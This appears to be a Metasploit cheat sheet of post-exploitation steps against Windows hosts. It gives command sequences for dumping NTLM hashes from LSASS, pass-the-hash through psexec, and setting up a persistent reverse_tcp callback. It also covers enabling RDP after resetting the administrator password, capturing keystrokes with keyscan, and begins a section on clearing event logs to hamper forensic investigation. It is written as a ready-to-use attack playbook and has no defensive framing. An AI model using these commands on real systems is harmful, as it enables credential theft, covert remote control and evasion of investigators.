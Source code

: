 ### Pass-the-Hash:

- `meterpreter > pgrep lsass`
- `meterpreter > migrate <id.lsass>`
- `meterpreter > hashdump` - for LM:NTLM hashes of all users in the damn system

- `msf6 > use smb/psexec`
    - `msf6 > set SMBUser administrator`
    - `msf6 > set SMBPass <LM:NTLM.hash>`

### Establishing Persistence with persistence_service:

Keeping access to target hosts across restarts, changed credentials, and other interruptions

- `meterpreter > bg`
- `msf6 > use persistence_service`
    - `msf6 > set session 1`
    - `msf6 > set payload windows/meterpreter/reverse_tcp`
    - `msf6 > set LHOST, LPORT <…>`
- `msf6 > sessions -K` - terminating all sessions

- `msf6 > use multi/handler`
    - `msf6 > set payload windows/meterpreter/reverse_tcp`
    - `msf6 > set LHOST, LPORT <…>`
- `meterpreter >`

### Enabling RDP:

- `meterpreter > bg`
- `msf6 > use enable_rdp`
    - `msf6 > set session 1`

- `msf6 > sessions 1`
- `meterpreter > shell`
- `C:\> net user administrator password1` - changing the password of administrator user

- `xfreerdp /u:administrator /p:password1 /v:<target.ip>`

### Keylogging with keyscan_start, dump:

The process of capturing keystrokes

- `meterpreter > pgrep explorer`
- `meterpreter > migrate <id>`
- `meterpreter > keyscan_start` - starting keylogger
- `meterpreter > keyscan_dump` - dumping

If it doesn’t work, then we must stop (`keyscan_stop`) and start (`keyscan_start`) then dump (`keyscan_dump`) again and again

### Clearing event logs:

Event logs are users’ actions/events that are stored by Windows OS. It is the first stop for forensic investiogation if there is a compromise.
